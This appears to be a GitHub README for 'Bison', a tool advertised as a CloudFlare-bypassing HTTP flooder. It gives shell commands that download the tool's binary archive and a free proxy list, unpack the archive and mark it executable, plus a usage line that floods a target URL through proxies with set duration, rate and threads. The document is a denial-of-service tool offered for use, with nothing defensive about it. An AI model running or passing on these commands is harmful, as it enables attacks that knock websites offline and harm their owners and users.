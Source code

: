 # Bison CloudFlare bypass flooder | UP TO DATE 2025

### CloudFlare Dstat Test
![JS/Bison](https://raw.githubusercontent.com/lincolnTOP/bison-cf-bypass/refs/heads/main/Capture.PNG)

### Installation

```shell
apt install unzip wget -y
wget https://github.com/lincolnTOP/bison-cf-bypass/raw/refs/heads/main/bison.zip
wget -O proxy.txt "https://api.proxyscrape.com/v4/free-proxy-list/get?request=display_proxies&proxy_format=ipport&format=text"
unzip bison.zip
chmod 777 bison
rm -rf bison.zip
```

### Usage
To use the script, run the following command in your terminal:
```shell
./bison GET "https://example.com" 60 1 5 proxy.txt --delay 1 --debug --http 2 --parsed --query 1
```

Proxies are downloading automatically also
./bison for options
